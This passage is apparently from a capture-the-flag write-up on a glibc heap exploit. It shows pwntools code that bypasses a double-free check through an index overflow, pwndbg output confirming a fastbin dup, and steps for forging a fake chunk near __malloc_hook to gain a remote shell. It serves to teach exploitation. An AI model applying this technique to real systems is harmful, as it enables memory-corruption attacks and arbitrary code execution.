 ```python  
# =-=-= Helper =-=-=--=  
def delete(idx, overflow=False):  
   sla(b'choice: ', b'4')  
   # overflow optionBuf to bypass double-free check  
   if overflow:  
       payload = str(idx).encode()  
       payload = payload.rjust(5, b'0')  
       # payload = '00004'  
log.info(f'Bypassing double-free check with: {payload}')  
       sla(b'index: ', payload)  
   else:  
       sla(b'index: ', str(idx).encode())

# =-=-=- Fastbin-dup =-=-=-  
# Assign 0x70-sized chunk  
dup = create(3, 'dup')  
log.info(f'dup index: {dup}')

# double free  
delete(dup)  
delete(guard)  
delete(dup, overflow=True)  
```

Now the fastbins list look like this, meaning we've successfully performed a
fastbin dup.

```  
pwndbg> fastbins  
fastbins  
0x20: 0x0  
0x30: 0x0  
0x40: 0x0  
0x50: 0x0  
0x60: 0x0  
0x70: 0x55555575a120 —▸ 0x55555575a0b0 ◂— 0x55555575a120  
0x80: 0x0  
```

### Wrapping up  
All that's left is to hijack the flow of execution and drop a shell remotely.
Because we're dealing with traditional fastbins, we need to account for a
size-field integrity check when linking fake chunks into the fastbins. Hence,
we need to make sure our chunks used for our fastbin dup are 0x70-sized
because we can forge fake chunks with size `0x7f` near the `__malloc_hook`.
Pwndbg has a nice command to automate this: `find_fake_fast`:

```  
pwndbg> find_fake_fast &__malloc_hook  
FAKE CHUNKS  
Fake chunk | Allocated chunk | PREV_INUSE | IS_MMAPED | NON_MAIN_ARENA  
Addr: 0x7ffff7dd1aed  
prev_size: 0xfff7dd0260000000  
size: 0x7f  
fd: 0xfff7a92ea0000000  
bk: 0xfff7a92a7000007f  
fd_nextsize: 0x7f  
bk_nextsize: 0x00  
```
